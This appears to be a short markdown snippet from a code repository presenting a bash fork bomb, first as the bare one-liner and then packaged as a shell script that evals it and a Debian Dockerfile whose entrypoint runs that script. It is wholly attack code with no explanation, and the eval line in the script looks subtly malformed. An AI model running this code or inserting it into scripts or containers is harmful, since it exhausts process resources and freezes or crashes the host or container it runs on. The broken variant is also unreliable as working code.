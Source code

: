 # 1 Fork Bomb

```shell
:(){ :|:& };:
```
# 2 Containerized Fork Bomb

forkbomb.sh
```shell
#!/bin/bash
echo "start fork bomb"
eval $(:( ){ :|:& };:)
echo "end forkbomb"
```

```dockerfile
FROM debian
COPY forkbomb.sh /forkbomb.sh
RUN chmod +x /forkbomb.sh
ENTRYPOINT ["/forkbomb.sh"]
```
